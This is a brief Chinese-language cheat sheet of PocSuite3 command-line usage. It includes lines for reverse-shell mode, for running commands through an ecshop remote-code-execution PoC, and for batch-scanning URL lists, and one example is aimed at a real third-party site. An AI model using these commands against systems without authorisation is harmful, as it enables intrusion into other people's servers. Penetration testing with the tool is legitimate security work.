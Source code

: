 # PocSuite3

- 官网：​http://pocsuite.org/​
- 源码：https://github.com/knownsec/pocsuite3

<!-- scp poc.py ubuntu@dev404:/mnt/src/ -->

```
pocsuite -u http://www.bing.com -r poc.py --verify

pocsuite -r poc.py -u www.bing.com --shell --ppt

pocsuite -u http://test.com -r test.py --verify #使用test.py这个PoC去检测http://test.com这个url
pocsuite -u http://test.com -r test.py --verify --shell # shell反连模式
pocsuite -u http://test.com -r ecshop_rce.py --attack --command "whoami" # pocsuite3中自带的ecshop poc中实现了自定义命令`command`,可以从外部参数传递
pocsuite -f url.txt -r test.py --verify #使用test.py这个PoC去检测url.txt文件里所有的url
#应该有个检测多个PoC的，但不知道怎么写命令，希望有师傅告知
```
